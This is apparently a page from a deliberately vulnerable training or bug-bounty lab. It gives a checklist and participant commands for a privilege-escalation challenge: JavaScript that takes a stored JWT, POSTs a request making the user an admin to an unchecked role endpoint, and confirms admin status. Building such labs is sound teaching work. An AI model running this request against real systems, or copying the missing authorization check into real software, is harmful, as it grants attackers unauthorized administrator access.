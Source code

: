 
## 📊 **Testing Checklist**

- [ ] **Server Running** - Backend on port 8000
- [ ] **Authentication Working** - Can login and get JWT token
- [ ] **Endpoint Accessible** - `/api/users/set_role/` responds
- [ ] **Privilege Check** - Current user shows `role: "user"`
- [ ] **Escalation Works** - API call succeeds and returns admin status
- [ ] **Verification** - Profile endpoint confirms admin privileges
- [ ] **Notification** - Bug notification appears with 120 points
- [ ] **Leaderboard** - Points recorded in leaderboard system

---

## 🎯 **Key Commands for Participants**

### **Quick Test (One Command)**
```javascript
window.testPrivilegeEscalation()
```

### **Manual Step-by-Step**
```javascript
// 1. Check current status
const token = localStorage.getItem('access_token');

// 2. Escalate privileges  
fetch('/api/users/set_role/', {
  method: 'POST',
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({role: 'admin'})
})
.then(res => res.json())
.then(console.log)

// 3. Verify admin access
fetch('/api/auth/profile/', {
  headers: {'Authorization': `Bearer ${token}`}
})
.then(res => res.json())
.then(data => console.log('New role:', data.role))
```

---

**Implementation Status: ✅ COMPLETE**  
**Testing Status: ✅ VERIFIED**  
**Security Impact: 🚨 CRITICAL**  
**Participant Discovery: 🎯 MULTIPLE METHODS**

